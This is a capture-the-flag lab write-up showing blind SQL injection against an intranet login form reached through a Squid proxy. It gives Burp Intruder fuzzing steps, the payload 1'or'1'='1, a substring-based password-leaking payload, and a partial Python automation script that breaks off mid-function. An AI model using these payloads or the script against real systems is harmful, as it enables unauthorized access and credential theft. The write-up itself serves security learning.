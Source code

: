 
## Blind SQLi against server 172.31.179.1 Form
We first need to fuzz for SQL Injection vulnerability that might be existing in the form. We will be using burp in this.
<br />Let's first set our Upstream Proxy Servers to Squid Proxy(10.10.10.200 - 3128)<br />
![target proxy](images/unbalanced/11.png# medium)
<br />Then let's intercept the login and then send to **Repeater**<br />
![repeater](images/unbalanced/10.png# medium)
<br />After we send it to **Repeater**, paste the whole requests to **Intruder -> Positions**<br />
![ip](images/unbalanced/12.png# medium)
<br />Then we will get our SQLi fuzz list from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/Intruder/FUZZDB_MYSQL.txt). Then past it to **Intruder -> Payloads**<br />
![sfd](images/unbalanced/13.png# medium)
<br />Then we can "Start Attack". After it is finished, we will be checking the _length_ of response.<br />
![length](images/unbalanced/14.png# medium)
<br />Out of these, there are only 3 lengths: 7079, 7185, and 7852. We are of most concern with with the largest since if we managed to leak data, it goes to say that the length of data expected to be received is also larger or longer. So let's check the response of the intranet login portal by redoing the payload at _**Password**_ (remember the position at the left - it is a value of 2) in the login page with payload _**1'or'1'='1**_.<br />
![pass](images/unbalanced/15.png# medium-p)

### Leaking passwords for every user
From the payload we have used, we know that the resulting query is true since it is leaking all the usernames and false when the data length is low. We can leak the password by having a conditional: _**\<nth character of Password = x\> AND Username=\<username\>**_. This will convert to the following blind sqli payload: _**' or substring(Password, {}, 1) = {} and Username='{}' and 'a**_. I created a python script to automate it.
<br />
```python
import string
import sys
import requests


proxies = {
    "http" : "http://10.10.10.200:3128"
}

def blind_attack(user, printable, pass_index):

    global proxies

    if printable == "'":
        char = '"\'"'
    else:
        char = "'{}'".format(printable)


    exploit_str = "' or substring(Password, {}, 1) = {} and Username='{}' and 'a".format(pass_index, char, user)


    data = {
        "Username" : user,
        "Password" : exploit_str
    }
```